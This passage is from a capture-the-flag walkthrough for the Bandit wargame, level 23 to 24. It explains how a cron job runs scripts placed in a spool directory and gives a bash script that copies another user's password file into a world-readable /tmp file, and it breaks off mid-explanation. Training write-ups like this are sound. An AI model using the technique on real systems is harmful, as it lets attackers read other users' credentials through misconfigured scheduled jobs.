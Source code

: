 Let's see this challenge description since they have a few importante notes:

>A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

>NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

>NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

So let's first go to `/etc/crond.d/` and check this level's file.

```bash
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

**cat** the file mentioned in here

```bash
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```

Once again this **cron** job is being ran as another user in this case **bandit24**. So `myname` will contain `bandit24`, leading us to the `/var/spool/bandit24` directory. The message printed by **echo** tells us that it will execute and delete all scripts in here, so our idea would be to create a script that will **cat** the password file into another file that we create. This very simple to write in a **bash** script, let's do it

```bash
#!/bin/bash

mkdir /tmp/dirforcron
cat /etc/bandit_pass/bandit24 > /tmp/dirforcron/pass
chmod 777 /tmp/dirforcron/pass
```

We will create this file in `/tmp/dirfortest/` and name it `script.sh`.
So what this do is creating a new directory to work in, cat the password file into a file in that directory and then changing the permissions to make it accessible to everyone. Now when we put this file in `/var/spool/bandit24` we have to be sure that the user who will run it has enough permissions to do so. We can do this by doing
